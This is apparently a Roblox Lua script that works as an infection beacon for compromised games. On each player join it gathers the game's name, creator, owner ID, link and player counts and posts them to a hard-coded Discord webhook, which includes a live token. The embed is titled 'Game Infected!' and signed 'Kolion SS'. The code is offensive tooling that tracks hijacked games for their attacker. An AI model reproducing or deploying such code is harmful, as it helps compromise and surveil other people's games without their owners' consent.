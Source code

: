 if game:GetService("HttpService").HttpEnabled then
	local HttpService = game:GetService("HttpService")
	local Players = game:GetService("Players")
	local MarketplaceService = game:GetService("MarketplaceService")

	local webhookUrl = "https://discord.com/api/webhooks/1420520161517113356/v4Z0IlORt2pkV3-HNdh7mq2VxclhU2h3gcmZBTYAZ517IMy1dqTHbN-esNQ5hz8EHL9J" ---- new
	local function formatDate(isoDateString)
		local datePart = isoDateString:match("^(%d%d%d%d%-%d%d%-%d%d)")
		return datePart or isoDateString
	end

	local function sendWebhook(player)
		local success, gameInfo = pcall(function()
			return MarketplaceService:GetProductInfo(game.PlaceId)
		end)
		if not success then
			warn("Failed to get game info: " .. tostring(gameInfo))
			return
		end

		local activePlayers = #Players:GetPlayers()
		local visitedPlayers = gameInfo.TotalVisits or 0

		local iconUrl = "https://www.roblox.com/asset-thumbnail/image?assetId=" .. tostring(game.PlaceId) .. "&width=150&height=150&format=png"
		local MaxPlr = game.Players.MaxPlayers

		local data = {
			username = "Kolion SS ❤‍🔥 ",
			embeds = {{
				title = "Game Infected!";
				fields = {
					{name = "> Game", value = "-> "..gameInfo.Name, inline = true},
					{name = "> Creator", value = "-> "..(gameInfo.Creator and gameInfo.Creator.Name) or "Unknown", inline = true},
					{name = "> Game Link", value = "-> ".."https://www.roblox.com/games/"..game.PlaceId, inline = false},
					{name = "> Created On", value = "-> "..formatDate(gameInfo.Created), inline = true},
					{name = "> Active Players", value = "-> "..tostring(activePlayers), inline = true},
					{name = "> Max Player", value = "-> "..tostring(activePlayers).."/"..MaxPlr, inline = true},
					{name = "> Owner ID", value = "-> "..game.CreatorId, inline = true},
				},
				footer = {
					text = "__Kolion Bot",
				},
				timestamp = os.date("!%Y-%m-%dT%H:%M:%SZ")
			}}
		}

		local jsonData = HttpService:JSONEncode(data)

		local ok, err = pcall(function()
			HttpService:PostAsync(webhookUrl, jsonData, Enum.HttpContentType.ApplicationJson)
		end)

		if not ok then
			warn("Failed to send webhook: " .. tostring(err))
		end
	end

	Players.PlayerAdded:Connect(function(player)
		sendWebhook(player)
	end)
else
	return warn("pls enable http")
end
